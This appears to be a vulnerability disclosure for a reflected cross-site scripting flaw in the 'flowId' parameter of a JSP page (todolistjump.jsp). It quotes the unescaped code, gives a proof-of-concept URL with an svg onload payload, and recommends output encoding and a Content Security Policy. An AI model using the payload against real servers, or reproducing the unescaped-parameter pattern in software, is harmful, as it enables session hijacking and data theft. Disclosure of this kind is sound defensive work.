 ![image-20250116143708651](./assets/image-20250116143708651.png)

# Vulnerability Report

## Vulnerability Description

The following code （`todolistjump.jsp`）contains a Cross-Site Scripting (XSS) vulnerability in the `flowId` parameter. An attacker can exploit this vulnerability to execute malicious scripts in the user's browser, potentially leading to information theft or other malicious activities.

## Vulnerable Code

```jsp
window.location.href = "<%=request.getScheme()%>://<%=request.getServerName() + ":"
    + request.getServerPort()%>/CDGServer3/3g/todoDetail.jsp;jsessionid=<%=session.getId()%>?flowId=<%=request.getParameter("flowId")%>”;
```

## Vulnerability Type

Cross-Site Scripting (XSS)

## Proof of Concept (PoC)

An attacker can trigger the XSS vulnerability through the following URL:

```
https://uri/CDGServer3/todolistjump.jsp?flowId=1;<svg/onload=alert()>
```

## Impact

This vulnerability may lead to:

- User information leakage
- Session hijacking
- Execution of malicious code

## Recommendations

1. Implement strict validation and sanitization of user input, especially escaping HTML special characters.
2. Use a secure output encoding library, such as OWASP's Java Encoder, to ensure output content is safe.
3. Implement a Content Security Policy (CSP) to restrict the sources of executable scripts.
